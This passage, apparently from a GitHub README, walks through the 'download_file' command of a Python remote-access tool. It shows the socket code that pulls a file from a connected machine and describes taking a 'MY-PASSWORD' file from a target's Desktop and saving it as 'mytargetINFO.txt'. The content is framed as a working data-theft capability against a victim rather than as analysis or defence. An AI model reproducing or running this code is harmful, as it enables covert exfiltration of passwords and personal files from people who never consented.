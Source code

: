 <img src=images/15.PNG  alt="alt text" width="950" height="550">

##
```python
    elif command == "download_file":
        conn.send(command.encode())
        print (" ")
        filepath = input(str("Please enter the file path including the filename : "))
        conn.send(filepath.encode())
        file = conn.recv(100000)
        print("")
        filename = input(str("Please enter a filename for the incoming file including the extention :"))
        new_file = open(filename, "wb")
        new_file.write(file)
        new_file.close()
        print (" ")
        print (filename, "Has been downloaded and saved ")
        print (" ")


```

#
:star: so first we execute ``` download_file ``` 
then we shoudl put the path and the file name with its extension ```C:\Users\mrgt7\Desktop\My-Documents\documents\MY-PASSWORD ``` 
then we wirte the path and name that we want to this file be saved in our pc in this case ```mytargetINFO.txt```.
and that's it. we got it.
